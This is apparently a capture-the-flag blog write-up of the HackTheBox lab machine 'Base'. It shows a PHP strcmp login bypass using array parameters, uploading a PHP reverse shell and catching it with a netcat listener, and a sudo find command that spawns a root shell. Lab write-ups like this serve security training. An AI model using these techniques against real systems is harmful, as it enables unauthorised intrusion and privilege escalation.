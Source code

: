 ```yaml
---
title: "HackTheBox - Base"
author: Nasrallah
description: ""
date: 2022-07-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, php, web, sudo]
img_path: /assets/img/hackthebox/machines/base
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Base](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The box is running ssh on port 22 and a web server on port 80. On the website we find there is a login page that uses a vulnerable function to check valid credentials, we exploit that function to login and upload a reverse shell. Once we're in the box, we find a user's password inside a website file. The user is able to run the `find` as root, so we exploit that to get a root shell.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.18.141 (10.129.18.141)
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to Base
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports, 22(SSH) and 80(HTTP).

## Web

Let's start enumerating the web server.

![](1.png)

We have a file hosting service named `Base`. We can see that there is a **login** button, byt clicking it, we are presented with a login page.

![](2.png)

From the URL of the login page `http://10.129.243.35/login/login.php`, we notice that there is a login directory with the `login.php` file stored in it. Let's go to the login directory by removing `login.php` from the URL.

![](3.png)

We find 3 files, the first two (config.php and login.php) can't be read or downloaded, but we can download the `login.php.swp` file. According to this [website](https://fileinfo.com/extension/swp), An SWP file is a swap file created by the Vi text editor or one of its variants, such as Vim (Vi iMproved) and gVim. It stores the recovery version of a file being edited in the program.

We can open the login.php.swp file using the command `vim -r config.php.swp`.

The following part is what concerns us.

```php
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
?>
```

The above php code is the one handling the login.

This file checks the username/password combination that the user submits against the variables that are stored in the config.php file to see if they match.

The function used to check the username and password combination is the `strcmp()` function.

I googled `strcmp authentication bypass` and found this [writeup](https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/) from another CTF explaining how to exploit this `strcmp` function.

# **Foothold**

The thing we need to do is change the username and password variables in the POST request to `username[]` and `password[]`.

## BurpSuite

Let's fire up burp suite and intercept a login request.

![](4.png)

Now let's change the username and password variables to the following.

![](5.png)

This converts the variables to arrays and after forwarding the request, strcmp() returns true and the login is successful.

When we forward the request, we get a file upload form.

Let's upload a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Once the file is uploaded, we need to find where it goes, so let's run a directory scan using gobuster.`gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.129.10.10/`.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.18.141/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/_uploaded            (Status: 301) [Size: 318] [--> http://10.129.18.141/_uploaded/]
/assets               (Status: 301) [Size: 315] [--> http://10.129.18.141/assets/]   
/forms                (Status: 301) [Size: 314] [--> http://10.129.18.141/forms/]    
/login                (Status: 301) [Size: 314] [--> http://10.129.18.141/login/]    
/server-status        (Status: 403) [Size: 278]                                      
===============================================================
```

We found `/_uploaded` directory, let's go see if our file is there.

![](7.png)

It's there, let's setup a netcat listener using this command `nc -lvnp 1234` and request to reverse shell php file.

![](8.png)

We're in.

# **Privilege Escalation**

The first thing we need to do is see what's on the `config.php` we saw earlier.

![](9.png)

We found a password! But what's the user. Listing the content of **/home** directory we find **john**'s directory.

Let's use that password and login to john's account with ssh.

![](10.png)

Great! Let's check our current privileges with `sudo -l`.

![](11.png)

We can run `find` as root. A quick search on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#sudo), we find a way to get root using `find`.

![](12.png)

Let's run that command: `sudo find . -exec /bin/sh \; -quit`.

![](13.png)

Nice!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).